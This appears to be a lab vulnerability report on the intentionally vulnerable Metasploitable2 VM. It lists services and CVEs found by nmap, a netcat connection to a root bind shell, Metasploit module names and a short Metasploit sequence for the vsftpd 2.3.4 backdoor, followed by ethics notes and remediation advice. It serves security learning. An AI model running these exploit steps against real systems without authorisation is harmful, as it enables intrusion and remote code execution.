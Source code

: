 # Vulnerability Assessment Report: Metasploitable2

**Target IP**: 192.168.1.4  
**Scan Tool**: Nmap v7.95  
**Scan Date**: July 8, 2025  
**Command Used**:
```bash
nmap -sV -sC -Pn 192.168.1.4
```
##  Summary of Findings

| Port     | Service   | Version             | Vulnerability                          | Exploit Tool                             |
|----------|-----------|---------------------|----------------------------------------|------------------------------------------|
| 21/tcp   | FTP       | vsftpd 2.3.4        | Backdoor RCE (CVE-2011-2523)           | Metasploit (`vsftpd_234_backdoor`)       |
| 22/tcp   | SSH       | OpenSSH 4.7p1       | Weak Key Exchange (low risk)           | –                                        |
| 23/tcp   | Telnet    | Linux telnetd       | Unencrypted Login                      | –                                        |
| 25/tcp   | SMTP      | Postfix smtpd       | SSLv2 Supported (weak)                 | nmap, sslscan                            |
| 80/tcp   | HTTP      | Apache 2.2.8        | Path disclosure, outdated              | Nikto, Gobuster                          |
| 139/445  | SMB       | Samba 3.0.20        | Usermap script RCE                     | Metasploit (`samba_usermap_script`)      |
| 1524/tcp | Bindshell | Metasploitable      | Open shell (root access)               | `nc 192.168.1.4 1524`                     |
| 3306/tcp | MySQL     | 5.0.51a             | Weak authentication                    | Manual brute-force                       |
| 5432/tcp | Postgres  | PostgreSQL 8.3.x    | Old version, weak creds                | Hydra, `psql`                            |
| 5900/tcp | VNC       | Protocol 3.3        | Weak/no auth                           | `vncviewer`, Hydra                       |
| 6667/tcp | IRC       | UnrealIRCd          | Backdoor RCE                           | Metasploit (`unreal_ircd_3281_backdoor`) |
| 8180/tcp | Tomcat    | Tomcat 5.5          | Default creds, RCE                     | `tomcat_mgr_deploy`                      |

---

##  Example Exploitation

###  FTP Backdoor Exploit (vsftpd 2.3.4)
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.4
run
```
---

##  Notes

- This VM is intentionally vulnerable (Metasploitable2).
- Do **not** test these techniques on real-world systems without permission.
- This lab is for **ethical learning** purposes only.
---

##  Recommendations

| Risk Level | Action |
|------------|--------|
| 🔴 Critical | Remove `vsftpd 2.3.4`, UnrealIRCd, bind shells |
| 🟡 Medium   | Disable Telnet, update Samba, MySQL, PostgreSQL |
| 🟢 Low      | Upgrade Apache, remove unused services           |
